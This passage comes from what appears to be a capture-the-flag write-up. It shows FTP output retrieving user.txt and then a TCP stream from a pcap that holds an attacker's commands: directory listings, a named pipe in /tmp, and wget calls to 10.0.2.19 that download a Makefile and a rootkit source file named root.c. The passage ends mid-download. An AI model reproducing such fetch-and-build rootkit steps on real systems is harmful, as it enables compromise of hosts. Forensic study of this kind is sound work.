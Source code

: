 200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (127.8832 kB/s)
ftp> 

{% endhighlight %}

As always, I won’t post the user proof here; I will only say that it starts with ‘6f’.

## Finding the rootkit

After getting the user.txt file, I started searching for a privesc method, but I got stuck. After going through everything again, I found a TCP stream (tcp.stream eq 26) in the pcap file that contained some of the attacker’s commands:

{% highlight bash %}
ls
ajax-tab.php
ajax.php
ajax_products_list.php
autoupgrade
backup.php
backups
bootstrap.php
cron_currency_rates.php
displayImage.php
drawer.php
export
favicon.ico
filemanager
footer.inc.php
functions.php
get-file-admin.php
grider.php
header.inc.php
import
index.php
init.php
pdf.php
public
robots.txt
searchcron.php
themes
webpack.config.js
cd /tmp
ls -la
total 8
drwxrwxrwt  2 root    root      4096 Dec 10 21:52 .
drwxr-xr-x 22 root    root      4096 Dec  4 21:20 ..
prw-r--r--  1 ib01c01 customers    0 Dec 10 21:52 osfiftm
wget 10.0.2.19/Makefile
--2018-12-10 21:53:00--  http://10.0.2.19/Makefile
Connecting to 10.0.2.19:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 154 [application/octet-stream]
Saving to: 'Makefile'

     0K                                                       100% 19.0M=0s

2018-12-10 21:53:00 (19.0 MB/s) - 'Makefile' saved [154/154]

wget 10.0.2.19/root.c
--2018-12-10 21:53:20--  http://10.0.2.19/root.c
Connecting to 10.0.2.19:80... connected.
HTTP request sent, awaiting response... 200 OK